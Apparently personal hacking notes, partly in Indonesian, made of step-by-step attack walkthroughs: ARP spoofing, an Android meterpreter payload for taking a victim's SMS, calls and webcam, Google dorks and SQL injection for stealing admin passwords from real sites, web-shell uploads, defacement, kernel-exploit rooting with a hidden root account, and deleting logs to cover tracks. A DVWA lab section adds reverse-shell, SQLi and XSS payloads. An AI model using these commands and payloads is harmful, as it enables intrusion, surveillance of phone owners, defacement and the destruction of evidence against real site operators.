sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080</code></pre>
cek:
iptables -t nat -L
dijalankan di multi terminal
arpspoof -i eth0 -t 192.168.43.210 192.168.43.207
arpspoof -i eth0 -t 192.168.43.207 192.168.43.210
mitmproxy --mode transparent
Client :
browsing ke server
mitmproxy di kali linux akan mengcapture
pertanyaan : bedanya dengan wireshark apa?
MITM HTTPS :
sama dengan cara diatas
Metasploit
untuk target android
*note :
- lhost/lport : sisi client (kali linux)
- rhost/rport : sisi target (server)
kali linux :
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.43.30 LPORT=4444 R > /home/carloz/app.apk</code></pre>
file ada di /home/carloz
lalu, install apk di android, pastikan allow instalasi agar dapat diinstall karena Android akan mendetect bahwa apk tersebut tidak resmi/secure
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.43.30
set lport 4444
exploit
(*) ip kali linux
beberapa perintah :
informasi tentang device :
sysinfo
linux / android ps command :
ps
list webcam yang ada :
webcam_list
snapshot webcam :
webcam_snap
kalau membutuhkan shell (untuk device yang sudah di root) :
shell
cek apakah smartphone korban di root :
check_root
informasi tentang device :
sysinfo
tampikan lokasi smartphone di Google maps :
wlan_geolocate
download call log di file txt. ini akan tersimpan di /root/calllog_dump.txt :
dump_calllog
download SMS disimpan di txt file :
dump_sms
kirim SMS :
send_sms -d “nomor tujuan” -t “berita yang ingin dikirim”
send_sms -d 9599***847 -t hacked
tampilan daftar semua webcam yang ada di smartphone korban :
webcam_list
pilih webcam 2 :
webcam_snap 2
streaming dari webcam :
webcam_stream
kalau membutuhkan shell (untuk device yang sudah di root) :
shell
linux / android ps command :
ps
Core Commands
=============
Command Description
------- -----------
? Help menu
background Backgrounds the current session
bgkillKills a background meterpreter script
bglistLists running background scripts
bgrun Executes a meterpreter script as a background thread
channel Displays information or control active channels
close Closes a channel
disable_unicode_encoding Disables encoding of unicode strings
enable_unicode_encoding Enables encoding of unicode strings
exit Terminate the meterpreter session
get_timeouts Get the current session timeout values
help Help menu
info Displays information about a Post module
irb Drop into irb scripting mode
load Load one or more meterpreter extensions
machine_id Get the MSF ID of the machine attached to the session
quit Terminate the meterpreter session
read Reads data from a channel
resource Run the commands stored in a file
run Executes a meterpreter script or Post module
sessions Quickly switch to another session
set_timeouts Set the current session timeout values
sleep Force Meterpreter to go quiet, then re-establish session.
transport Change the current transport mechanism
use Deprecated alias for 'load'
uuid Get the UUID for the current session
write Writes data to a channel
Stdapi: File system Commands
============================
Command Description
------- -----------
cat Read the contents of a file to the screen
cd Change directory
checksum Retrieve the checksum of a file
cp Copy source to destination
dir List files (alias for ls)
download Download a file or directory
edit Edit a file
getlwd Print local working directory
getwd Print working directory
lcd Change local working directory
lpwd Print local working directory
ls List files
mkdir Make directory
mv Move source to destination
pwd Print working directory
rm Delete the specified file
rmdir Remove directory
search Search for files
upload Upload a file or directory
Stdapi: Networking Commands
===========================
Command Description
------- -----------
ifconfig Display interfaces
ipconfig Display interfaces
portfwd Forward a local port to a remote service
route View and modify the routing table
Stdapi: System Commands
=======================
Command Description
------- -----------
execute Execute a command
getuid Get the user that the server is running as
localtime Displays the target system's local date and time
pgrep Filter processes by name
ps List running processes
shell Drop into a system command shell
sysinfo Gets information about the remote system, such as OS
Stdapi: Webcam Commands
=======================
Command Description
------- -----------
record_mic Record audio from the default microphone for X seconds
webcam_chat Start a video chat
webcam_list List webcams
webcam_snap Take a snapshot from the specified webcam
webcam_stream Play a video stream from the specified webcam
Android Commands
================
Command Description
------- -----------
activity_start Start an Android activity from a Uri string
check_root Check if device is rooted
dump_calllog Get call log
dump_contacts Get contacts list
dump_sms Get sms messages
geolocate Get current lat-long using geolocation
hide_app_icon Hide the app icon from the launcher
interval_collect Manage interval collection capabilities
send_sms Sends SMS from target session
set_audio_mode Set Ringer Mode
sqlite_query Query a SQLite database from storage
wakelock Enable/Disable Wakelock
wlan_geolocate Get current lat-long using WLAN information
Sumber :
- https://www.hackingloops.com/hacking-class-14-how-to-deface-websites-using-sql-and-php-scripting/
- https://lms.onnocenter.or.id/wiki/index.php/Hacking:_deface_web
Apakah Deface?
Defacing situs web pada dasarnya kita mengganti file index.html dari situs dengan file kita. Sekarang semua User yang membukanya akan melihat Halaman kami (yaitu yang diunggah oleh kami).
Untuk men-deface sebuah situs web, ada 3 hal utama yang kita butuhkan, yaitu:
- SQL Injection(Untuk analisa website loops)
- Admin Password
- Shell Script (Untuk mendapatkan Admin)
Mencari Target dan Admin Password
Pertama-tama kita harus mencari target website. Kita perlu mengumpulkan dork (titik kelemahan website). Google search dapat merupakan alamat yang mencari website vulnerable / mempunyai kelemahan. Di bawah ini adalah contoh query-nya.
Buka Google, dan copy paste query berikut
inurl:index.php?id=
inurl:trainers.php?id=
inurl:buy.php?category=
inurl:article.php?ID=
inurl:play_old.php?id=
inurl:declaration_more.php?decl_id=
inurl:pageid=
inurl:games.php?id=
inurl:page.php?file=
inurl:newsDetail.php?id=
inurl:gallery.php?id=
Berikut adalah query lainnya yang mungkin bisa dipakai (gunakan tanpa kutip),
"add.asp?bookid="
"add_cart.asp?num="
"addcart.asp?"
"addItem.asp"
"add-to-cart.asp?ID="
"addToCart.asp?idProduct="
"addtomylist.asp?ProdId="
"adminEditProductFields.asp?intProdID="
"advSearch_h.asp?idCategory="
"affiliate.asp?ID="
"affiliate-agreement.cfm?storeid="
"affiliates.asp?id="
"ancillary.asp?ID="
"archive.asp?id="
"article.asp?id="
"aspx?PageID"
"basket.asp?id="
"Book.asp?bookID="
"book_list.asp?bookid="
"book_view.asp?bookid="
"BookDetails.asp?ID="
"browse.asp?catid="
"browse_item_details.asp"
"Browse_Item_Details.asp?Store_Id="
"buy.asp?"
"buy.asp?bookid="
"bycategory.asp?id="
"cardinfo.asp?card="
"cart.asp?action="
"cart.asp?cart_id="
"cart.asp?id="
"cart_additem.asp?id="
"cart_validate.asp?id="
"cartadd.asp?id="
"cat.asp?iCat="
"catalog.asp"
"catalog.asp?CatalogID="
"catalog_item.asp?ID="
"catalog_main.asp?catid="
"category.asp"
"category.asp?catid="
"category_list.asp?id="
"categorydisplay.asp?catid="
"checkout.asp?cartid="
"checkout.asp?UserID="
"checkout_confirmed.asp?order_id="
"checkout1.asp?cartid="
"comersus_listCategoriesAndProducts.asp?idCategory ="
"comersus_optEmailToFriendForm.asp?idProduct="
"comersus_optReviewReadExec.asp?idProduct="
"comersus_viewItem.asp?idProduct="
"comments_form.asp?ID="
"contact.asp?cartId="
"content.asp?id="
"customerService.asp?TextID1="
"default.asp?catID="
"description.asp?bookid="
"details.asp?BookID="
"details.asp?Press_Release_ID="
"details.asp?Product_ID="
"details.asp?Service_ID="
"display_item.asp?id="
"displayproducts.asp"
"downloadTrial.asp?intProdID="
"emailproduct.asp?itemid="
"emailToFriend.asp?idProduct="
"events.asp?ID="
"faq.asp?cartID="
"faq_list.asp?id="
"faqs.asp?id="
"feedback.asp?title="
"freedownload.asp?bookid="
"fullDisplay.asp?item="
"getbook.asp?bookid="
"GetItems.asp?itemid="
"giftDetail.asp?id="
"help.asp?CartId="
"home.asp?id="
"index.asp?cart="
"index.asp?cartID="
"index.asp?ID="
"info.asp?ID="
"item.asp?eid="
"item.asp?item_id="
"item.asp?itemid="
"item.asp?model="
"item.asp?prodtype="
"item.asp?shopcd="
"item_details.asp?catid="
"item_list.asp?maingroup"
"item_show.asp?code_no="
"itemDesc.asp?CartId="
"itemdetail.asp?item="
"itemdetails.asp?catalogid="
"learnmore.asp?cartID="
"links.asp?catid="
"list.asp?bookid="
"List.asp?CatID="
"listcategoriesandproducts.asp?idCategory="
"modline.asp?id="
"myaccount.asp?catid="
"news.asp?id="
"order.asp?BookID="
"order.asp?id="
"order.asp?item_ID="
"OrderForm.asp?Cart="
"page.asp?PartID="
"payment.asp?CartID="
"pdetail.asp?item_id="
"powersearch.asp?CartId="
"price.asp"
"privacy.asp?cartID="
"prodbycat.asp?intCatalogID="
"prodetails.asp?prodid="
"prodlist.asp?catid="
"product.asp?bookID="
"product.asp?intProdID="
"product_info.asp?item_id="
"productDetails.asp?idProduct="
"productDisplay.asp"
"productinfo.asp?item="
"productlist.asp?ViewType=Category&CategoryID= "
"productpage.asp"
"products.asp?ID="
"products.asp?keyword="
"products_category.asp?CategoryID="
"products_detail.asp?CategoryID="
"productsByCategory.asp?intCatalogID="
"prodView.asp?idProduct="
"promo.asp?id="
"promotion.asp?catid="
"pview.asp?Item="
"resellers.asp?idCategory="
"results.asp?cat="
"savecart.asp?CartId="
"search.asp?CartID="
"searchcat.asp?search_id="
"Select_Item.asp?id="
"Services.asp?ID="
"shippinginfo.asp?CartId="
"shop.asp?a="
"shop.asp?action="
"shop.asp?bookid="
"shop.asp?cartID="
"shop_details.asp?prodid="
"shopaddtocart.asp"
"shopaddtocart.asp?catalogid="
"shopbasket.asp?bookid="
"shopbycategory.asp?catid="
"shopcart.asp?title="
"shopcreatorder.asp"
"shopcurrency.asp?cid="
"shopdc.asp?bookid="
"shopdisplaycategories.asp"
"shopdisplayproduct.asp?catalogid="
"shopdisplayproducts.asp"
"shopexd.asp"
"shopexd.asp?catalogid="
"shopping_basket.asp?cartID="
"shopprojectlogin.asp"
"shopquery.asp?catalogid="
"shopremoveitem.asp?cartid="
"shopreviewadd.asp?id="
"shopreviewlist.asp?id="
"ShopSearch.asp?CategoryID="
"shoptellafriend.asp?id="
"shopthanks.asp"
"shopwelcome.asp?title="
"show_item.asp?id="
"show_item_details.asp?item_id="
"showbook.asp?bookid="
"showStore.asp?catID="
"shprodde.asp?SKU="
"specials.asp?id="
"store.asp?id="
"store_bycat.asp?id="
"store_listing.asp?id="
"Store_ViewProducts.asp?Cat="
"store-details.asp?id="
"storefront.asp?id="
"storefronts.asp?title="
"storeitem.asp?item="
"StoreRedirect.asp?ID="
"subcategories.asp?id="
"tek9.asp?"
"template.asp?Action=Item&pid="
"topic.asp?ID="
"tuangou.asp?bookid="
"type.asp?iType="
"updatebasket.asp?bookid="
"updates.asp?ID="
"view.asp?cid="
"view_cart.asp?title="
"view_detail.asp?ID="
"viewcart.asp?CartId="
"viewCart.asp?userID="
"viewCat_h.asp?idCategory="
"viewevent.asp?EventID="
"viewitem.asp?recor="
"viewPrd.asp?idcategory="
"ViewProduct.asp?misc="
"voteList.asp?item_ID="
"whatsnew.asp?idCategory="
"WsAncillary.asp?ID"
Setelah memperoleh situs yang agak terbuka tersebut, langkah selanjutnya adalah mencoba meng-hack '''ADMIN PASSWORD'''.
SQL Injection
kita akan menggunakan SQL Injection.
Cek Vulnerability
Misalnya, kita berhasil memperoleh situs berikut
http://www.site.com/news.php?id=5
Untuk test vulnerable kita tambahkan ' (kutip) di akhir URL menjadi,
http://www.site.com/news.php?id=5′
Jika kita memperoleh error berikut,
“You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right etc…”
atau kira-kira seperti itu, maka situs tersebut vulnerable ke SQL Injection.
Menemukan Jumlah Kolom
To find number of columns we use statement ORDER BY (tells database how to order the result) so how to use it? Well just incrementing the number until we get an error.
http://www.site.com/news.php?id=5 order by 1/* <– no error
http://www.site.com/news.php?id=5 order by 2/* <– no error
http://www.site.com/news.php?id=5 order by 3/* <– no error
http://www.site.com/news.php?id=5 order by 4/* <– error (we get message like this Unknown column ‘4’ in ‘order clause’ or something like that)
that means that the it has 3 columns, cause we got an error on 4.
Cek fungsi UNION
With union we can select more data in one sql statement.
So we have
http://www.site.com/news.php?id=5 union all select 1,2,3/* (we already found that number of columns are 3 in section 2). )
if we see some numbers on screen, i.e 1 or 2 or 3 then the UNION works .
Cek versi MySQL
http://www.site.com/news.php?id=5 union all select 1,2,3/* NOTE: if /* not working or you get some error, then try —
it’s a comment and it’s important for our query to work properly.
Let say that we have number 2 on the screen, now to check for version we replace the number 2 with @@version or version() and get someting like 4.1.33-log or 5.0.45 or similar.
it should look like this
http://www.site.com/news.php?id=5 union all select 1,@@version,3/*
If you get an error “union + illegal mix of collations (IMPLICIT + COERCIBLE) …”
I didn’t see any paper covering this problem, so i must write it .
What we need is convert() function
i.e.
http://www.site.com/news.php?id=5 union all select 1,convert(@@version using latin1),3/*
or with hex() and unhex()
i.e.
http://www.site.com/news.php?id=5 union all select 1,unhex(hex(@@version)),3/*
and you will get MySQL version .
Mendapatkan nama tabel dan kolom
well if the MySQL version is < 5 (i.e 4.1.33, 4.1.12…) <— later i will describe for MySQL > 5 version. we must guess table and column name in most cases.
common table names are: user/s, admin/s, member/s …
common column names are: username, user, usr, user_name, password, pass, passwd, pwd etc…
i.e would be
http://www.site.com/news.php?id=5 union all select 1,2,3 from admin/* (we see number 2 on the screen like before, and that’s good )
We know that table admin exists…
Now to check column names.
http://www.site.com/news.php?id=5 union all select 1,username,3 from admin/* (if you get an error, then try the other column name)
we get username displayed on screen, example would be admin, or superadmin etc…
now to check if column password exists
http://www.site.com/news.php?id=5 union all select 1,password,3 from admin/* (if you get an error, then try the other column name)
we seen password on the screen in hash or plain-text, it depends of how the database is set up i.e md5 hash, mysql hash, sha1…
Now we must complete query to look nice
For that we can use concat() function (it joins strings)
i.e
http://www.site.com/news.php?id=5 union all select 1,concat(username,0x3a,password),3 from admin/*
Note that i put 0x3a, its hex value for : (so 0x3a is hex value for colon)
(there is another way for that, char(58), ascii value for : )
http://www.site.com/news.php?id=5 union all select 1,concat(username,char(58),password),3 from admin/*
Now we get dislayed username:password on screen, i.e admin:admin or admin:somehash
When you have this, you can login like admin or some superuser.
If can’t guess the right table name, you can always try mysql.user (default)
It has user password columns, so example would be
http://www.site.com/news.php?id=5 union all select 1,concat(user,0x3a,password),3 from mysql.user/*
MySQL 5
Like i said before i’m gonna explain how to get table and column names in MySQL > 5.
For this we need information_schema. It holds all tables and columns in database.
to get tables we use table_name and information_schema.tables.
i.e
http://www.site.com/news.php?id=5 union all select 1,table_name,3 from information_schema.tables/*
here we replace the our number 2 with table_name to get the first table from information_schema.tables displayed on the screen. Now we must add LIMIT to the end of query to list out all tables.
i.e
http://www.site.com/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 0,1/*
note that i put 0,1 (get 1 result starting from the 0th)
now to view the second table, we change limit 0,1 to limit 1,1
i.e
http://www.site.com/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 1,1/*
the second table is displayed.
for third table we put limit 2,1
i.e
http://www.site.com/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 2,1/*
Keep incrementing until you get some useful like db_admin, poll_user, auth, auth_user etc…
To get the column names the method is the same.
here we use column_name and information_schema.columns
the method is same as above so example would be
http://www.site.com/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 0,1/*
The first column is diplayed.
The second one (we change limit 0,1 to limit 1,1)
ie.
http://www.site.com/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 1,1/*
The second column is displayed, so keep incrementing until you get something like
username,user,login, password, pass, passwd etc…
If you wanna display column names for specific table use this query. (where clause)
Let’s say that we found table users.
i.e
http://www.site.com/news.php?id=5 union all select 1,column_name,3 from information_schema.columns where table_name=’users’/*
Now we get displayed column name in table users. Just using LIMIT we can list all columns in table users.
Note that this won’t work if the magic quotes is ON.
Let’s say that we found colums user, pass and email.
Now to complete query to put them all together.
For that we use concat() , i decribe it earlier.
i.e
http://www.site.com/news.php?id=5 union all select 1,concat(user,0x3a,pass,0x3a,email) from users/
What we get here is user:pass:email from table users.
Example: admin:hash:whatever@blabla.com
- If you are too lazy for doing above stuff you can use tools they will do all the job:
-
Exploit scanner (this will find vulnerable websites)
Code: -
SQLi helpper (this tool will do all the injecting job and get you the pass or hash)
Code:http://rapidshare.com/files/24802907…elperV.2.7.rar
- use the tools only if you are new to hacking. Do it manually thats the thrill and that is real hacking. When you do it manually you will understand the concept.
In some websites you can directly see the password but most of the websites encrypt them using MD5. so u hav to crack the hash to get the password.
To crack the password there are three ways
-
Check the net whether this hash is cracked before:
Download:http://www.md5decrypter.co.uk
-
Crack the password with the help of a site:
Download::http://www.milw0rm.com/cracker/insert.php http://passcracking.com/index.php
-
Use a MD5 cracking software:
ownload:http://rapidshare.com/files/13696796…CF_2.10_2b.rar
Password = OwlsNest
DEFACING THE WEBSITE
After getting the password you can login as the admin of the site. But first you have to find the admin login page for the site. there r three methods to find the admin panel.
-
You can use an admin finder website:
Code:http://4dm1n.houbysoft.com/
-
You can use an admin finder software:
Code:http://rapidshare.com/files/248020485/adminfinder.rar
After logging in as the admin you can upload photos to the site. so now you are going to upload a shell into the site using this upload facility.
Dowload the shell here: http://rapidshare.com/files/248023722/c99.rar
Extract it you will get a c99.php upload it. Some sites wont allow you to upload a php file. so rename it as c99.php.gif Then upload it.
After that go to http://www.site.com/images (in most sites images are saved in this dir but if you cant find c99 there then you have to guess the dir)
find the c99.php.gif and click it..
Now you can see a big control pannel…. Now you can do what ever you want to do… Search for the index.html file and replace it with your own file. So if any one goes to that site they will see your page…. After Doing This click on Logout and You are Done..
Referensi
https://www.hackingloops.com/hacking-class-14-how-to-deface-websites-using-sql-and-php-scripting/
Sumber: http://www.isoc.my/profiles/blogs/defacing-rooting-and-persistence-for-beginners
DISCLAIMER: WHATEVER IT IS THAT YOU LEARN HERE SHOULD BE USED FOR WHITE HAT PURPOSES ONLY
Tool yang dibutuhkan
- Backtrack (www.backtrack-linux.org) atau Kali Linux (http://www.kali.org)
- Firefox (www.mozilla.org/en-US/firefox/new/) ada di Backtrack / Ubuntu
- Netcat (ada di Backtrack / Kali Linux). Jika anda menggunakan Linux yang lain, kita dapat menginstall-nya dari http://nmap.org/ncat/ .
- iCon2PHP (gnahackteam.wordpress.com/gnahackteam/icon2php/)
- Shell yang baik (iCon2PHP Archive termasuk di dalam-nya tiga shell yang keren)
- VPN yang baik atau (More explanation below..)
- Acunentix Web Vulnerability Scanner
Tentang Tools
Backtrack / Kali
A Linux distribution based on Ubuntu/ Debian. It includes everything you need to become a good hacker. Apart from this, hacking behind a Linux system is better than a Windows one since most Websites are on Linux Servers.
Firefox
Firefox is the best browser for hacking. You can easily configure a proxy and you can download millions of add-ons among which you can find some for Hacking. Find more about Hacky addons for Firefox or you can get my collection from here.
Netcat
Netcat is a powerful networking tool. You will need this to root the server
iCon2PHP & Good Shells
You will use it if you upload any image to an Image Uploader at a Forum or Image Hosting Service. iCon2PHP Archive contains some of the top shells available
Good VPN or TOR (Proxies are good too)
While hacking you need to be anonymous so as not to find you (even if you forget to delete the logs.). A VPN stands for Virtual Private Network and what it does is: hiding your IP, encrypting the data you send and receive to and from the Internet. A good VPN solution for Windows Maschines is ProXPN. However, with VPN connections (especially when you are under a free VPN connection) your connection speed is really slow. So, I wouldn't recommend VPN unless you pay and get a paid account.
What I would recommend is Tor. Tor can be used from its bundle: Vidalia, which is a great tool for Windows, Mac and Linux that uses Proxies all over its network around the world so as to keep you anonymous and changing these Proxies every 5-10 minutes. I believe it is among the best solutions to keep you anonymous if you don't want to pay for a Paid VPN account
Apart from Tor, simple Proxies are good but I wouldn't recommend them as much as I would, Tor.
If I listed the above options according to their reliability :
- Paid VPN Account at ProXPN
- Tor
- Free VPN Account at ProXPN
- Proxy Connection
Acunetix Web Vulnerability Scanner - Scans for open ports, web vulnerabilities, directory listing. During the scan it lists the vulnerabilities and says how a hacker can exploit it and how to patch it. It also shows the severity of the vulnerability.
The Consultant Edition (For unlimited websites) costs about 3000-7000$.
Starting the Main Tutorial:
So, here is the route we will follow:
Find a Vulnerable Website > Upload a c100 Shell (Hidden in an Image with iCon2PHP) > Rooting the Server > Defacing the Website > Covering your Tracks
Before we begin
-
Boot into Kali or Backtrack
-
Connect to your VPN or to Tor
-
Open Firefox
- Finding a Vulnerable Website and Information about it:
Acunetix - Open and scan the website (use the standard profile, don't modify anything except if you know what you are doing). For this tutorial our website will be: www.site.com
Let's say we found a vulnerability using which we can upload a remote file (our shell) and have access to the website's files
The Warning should be something like this. It can mention other information or be a completely other warning (like for SQL Injection I will post a Tutorial on this also), too! (Depends on the Vulnerability) What we need at this tutorial is that we can exploit the File Inclusion Attack and Have access to the Website's Files. (This is not the warning we need for this tutorial, but it is related to what we do too.)
OK. Now, we have the site and the path that the vulnerability is. In our example let's say it is here:
www.site.com/blog/wp-content/themes/theme_name/thumb.php
The above vulnerability affects WordPress blogs that have installed certain plugins or themes and haven't updated to the latest version of TimThumb, which is a image-editing service on websites.
OK. Acunetix should also mention the OS of the Server. Assuming that ours is a Unix/Linux system (so as to show you how to root it).
For now, we don't have anything else to do with Acunetix
- Uploading the shell:
Till now, we know:
-
The website's blog has a huge vulnerability at TimThumb
-
It is hosted on a Unix System
Next, because of the fact that the Vulnerability is located at an outdated TimThumb version, and tim thumb is a service to edit images, we need to upload the shell instead of the image
Thus, download any image (I would recommend a small one) from Google Images. We don't care what it shows.
Generate Output with iCon2PHP
Copy your Image and your Shell to the Folder that iCon2PHP is located
Run the Program and follow the in-program instructions to build the finalImage.php
To avoid any errors while uploading rename the finalImage.php to image.php;.png (instead of png, type the image format your image was jpeg, jpg, gif, bmp, png etc.) This is exactly the same file but it confuses the uploader and thinks that it actually is an image.
Enter the Path of your Image: image.png
Please enter the path to the PHP: GnYshell.php
Entered!
Valid Files!
[...]
File: finalImage.php has been successfully created at the Current Directory
Upload Output to a Server:
Next, upload your image.php;.png into a free server. (000webhost, 0fees etc.)
Go to the vulnerability and type at the URL:
www.site.com/blog/wp-content/themes/theme_name/thumb.php?src=http:/...
It would be better to create a subdomain like flickr.com (or other big image-hosting service) because sometimes it doesn't accept images from other websites.
Website. Shelled!
OK. Your website is shelled. This means that you should now have your shell uploaded and ready to root the server.
You could easily deface the website now but it would be better if you first rooted the server, so as to cover your tracks quickly.
- Root the Server so as to be persistent:
Now that you have shelled your website we can start the process to root the server
What is rooting when it comes for Server Hacking?
Rooting a server is the procedure when the hacker acquires root privileges at the whole server. If you don't understand this yet, I reassure you that by the end of the section Rooting a server you will have understood exactly what it is
Let's proceed to rooting
Connect via netcat:
-
Open a port at your router. For this tutorial I will be using 402. (Search Google on how to port forward. It is easier than it seems)
-
Open Terminal
-
Type:
netcat
-
Now type:
-l -n -v -p 402
-
It should have an output like this:
listening on [any] 402 port
-
Now, go to the Back-Connection function at the Shell
-
Complete with the following:
Host:YouIPAddress Port: 402 (or the port you forwarded)
-
Hit connect and Voila! Connected to the server!
Downloading and Executing the Kernel exploit:
- Now, if you type:
whoami
you will see that you are not root yet
-
To do so we have to download a kernel exploit. The kernel version is mentioned at your shell. Find kernel exploits here
-
Download it to your HDD and then upload it to the server via the Shell. Unzip first, if zipped.
-
Now do the following exploit preparations:
The most usual types of exploits:
+++ Perl (.pl extension)
+++ C (.c extension)
(( If the program is in C you have first to compile it by typing: gcc exploit.c -o exploit ))
Change the permissions of the exploit:
chmod 777 exploit
- Execute the exploit. Type:
./exploit
- Root permissions acquired! Type this to ensure:
id
or
whoami
- Add a new root user:
adduser -u 0 -o -g 0 -G 1,2,3,4,6,10 -M root1
where root1 is your desired username
- Change the password of the new root user:
passwd root1
SUCCESSFULLY ROOTED!
- Deface the Website:
What is defacing?
Defacing is the procedure when the hacker uploads his own inbox webpage to alter the homepage of a site. In this way, he can boost his reputation or parse a message to the people or the company (which owns the website)
Since you got the website shelled, you just create a nice hacky page in html and upload it via the Shell as inbox.html (Delete or rename the website's one)
==Menghilangkan Jejak==
Sampai saat ini kita aman dengan anonymity yang diberikan oleh Tor atau ProXPN. Akan tetapi untuk menjamin bahwa admin tidak bisa mengetahui lokasi kita, kita perlu men-delete log.
Pada mesin-mesin yang berbasis Unix, ada beberapa log yang sebaiknya kita edit atau delete.
Beberapa nama file log Linux dan penggunaannya,
/var/log/message: General message and system related stuff /var/log/auth.log: Authentication logs /var/log/kern.log: Kernel logs /var/log/cron.log: Crond logs (cron job) /var/log/maillog: Mail server logs /var/log/qmail/ : Qmail log directory (more files inside this directory) /var/log/httpd/: Apache access and error logs directory /var/log/lighttpd: Lighttpd access and error logs directory /var/log/boot.log : System boot log /var/log/mysqld.log: MySQL database server log file /var/log/secure: Authentication log /var/log/utmp or /var/log/wtmp : Login records file /var/log/yum.log: Yum log files
In short /var/log is the location where you should find all Linux logs file
Untuk men-delete semua catatan (log) agar jejak kita tidak dapat di ketahui, kita dapat men-delete menggunakan perintah
su root1 rm -rf /var/log mkdir /var/log
That's about it! This is the method being used by most black hats when they want to deface servers and get persistent access to it.
==Referensi==
- http://www.isoc.my/profiles/blogs/defacing-rooting-and-persistence-for-beginners
DVWA
sumber : http://computersecuritystudent.com/
INI SECURITY MODE EASY!!!
Command Injection
pake biasa :
server :
$ip_terserah;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
client :
nc $ip_server 4444
pake metasploit :
server :
$ip_terserah;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
client :
msfconsole
kasih IP server
use multi/handler
set PAYLOAD linux/x86/shell/bind_tcp
show options
set RHOST 192.168.43.207
exploit
bbrp instruksi bagus :
whoami
grep apache /etc/passwd
grep apache /etc/group
ps -eaf | grep http
pwd
ls -ld /var/www/html
ls -ld /var/www/html/dvwa
ls -l /var/www/html/dvwa
ls -l /var/www/html/dvwa/config
cat /var/www/html/dvwa/config/config.inc.php
echo "show databases;" | mysql -uroot -pdvwaPASSWORD
echo "use dvwa; show tables;" | mysql -uroot -pdvwaPASSWORD
echo "use dvwa; desc users;" | mysql -uroot -pdvwaPASSWORD
echo "select * from dvwa.users;" | mysql -uroot -pdvwaPASSWORD
echo "insert into dvwa.users values ('6','John','Gray','jgray',MD5('abc123'),'NA');" | mysql -uroot
-pdvwaPASSWORD
echo "select * from dvwa.users;" | mysql -uroot -pdvwaPASSWORD
echo "show databases;" | mysql -uroot -pdvwaPASSWORD
echo "use mysql; show tables;" | mysql -uroot -pdvwaPASSWORD
echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'db_hacker'@'%' IDENTIFIED BY 'abc123' WITH GRANT
OPTION;" | mysql -uroot -pdvwaPASSWORD
echo "select * from mysql.user;" | mysql -uroot -pdvwaPASSWORD
mysql -u db_hacker -h 192.168.43.207 -p
show databases;
quit
date
echo "Your Name"SQL Injection
single input :
%' or '0'='0
%' or 0=0 union select null, version() #
%' or 0=0 union select null, user() #
%' or 0=0 union select null, database() #
%' and 1=0 union select null, table_name from information_schema.tables #
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #</code></pre>
dapet user & pass :
buat file yg isinya :
user:pass
misal save di
/pentest/passwords/john
nama : dvwa_password.txt
lalu
cd /pentest/passwords/john
./john --format=raw-MD5 dvwa_password.txt
date
echo "Your Name"Upload Vuln
mkdir -p /root/backdoor
cd /root/backdoor
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.30 LPORT=4444 R > PHONE_HOME.php
ls -l PHONE_HOME.php
vi PHONE_HOME.php
-> Press "x" to delete the "#" character on the first line.
atau intinya dihapus komentar diawal
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.43.30
set LPORT 4444
exploit
buka browser, upload PHONE_HOME.php
http://192.168.43.207/dvwa/hackable/uploads/
atau copy source,
lalu klik PHONE_HOME.php
kembali ke kali linux
ini adalah alternatif jika b374k.php ditolak
Cross Site Scripting
What is Cross Site Scripting?
- Cross-site scripting (XSS) is a type of computer security vulnerability typically found in Web applications.
- XSS enables attackers to inject client-side script into Web pages viewed by other users.
- A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same origin policy.
- In Addition, the attacker can send input (e.g., username, password, session ID, etc) which can be later captured by an external script.
- The victim's browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.
In this lab we will do the following:
- We will test a basic cross site scripting (XSS) attack
- We will test an iframe cross site scripting (XSS) attack
- We will test a cookie cross site scripting (XSS) attack
- We will create a php/meterpreter/reverse_tcp payload
- We will start the php/meterpreter/reverse_tcp listener
- We will upload the PHP payload to the DVWA Upload screen
- We will test a PHP Payload cross site scripting (XSS) attack
Kali :
buka web brower (firefox) -> buka preference
preference :
- Click on Content
- Uncheck Block pop-up windows
- Check Enable JavaScript
- Click the Close Button
login dvwa -> XSS Stored
Name: Test 1
Message: <script>alert("This is a XSS Exploit Test")</script>
Click Sign Guestbook
karena tersimpan didatabase, maka setiap buka itu akan muncul popup
agar tidak muncul, setup -> create / reset database
Name: Test 2
Message: <iframe src="http://www.cnn.com"></iframe>
Click Sign Guestbook
dan
Name: Test 3
Message: <script>alert(document.cookie)</script>
Click Sign Guestbook
membuat payload :
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.30 LPORT=4444 R > FORUM_BUG.php
vi FORUM_BUG.php
Press "x" to delete the "#" character on the first line.
atau intinya hapus komentar di awal
file FORUM_BUG.php diupload melalui Site Upload Vuln
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.43.30
set LPORT 4444
exploit
jadi seperti ini
Name: Test 4
Message: <script>window.location = "http://192.168.43.207/dvwa/hackable/uploads/FORUM_BUG.php"</script>
Click Sign Guestbook
Sudah connect di terminal
jalahkan perintah 'shell'
find configuraion files :
Displays the name of the user :
whoami</code></pre>
The goal of this command is obtaining the home directory for the apache username :
grep apache /etc/passwd</code></pre>
Here I am wanting to find all the configuration files in the /var/www directory :
find /var/www/* -print | grep config</code></pre>
This produces the database name, username, and password information to log into the mysql database :
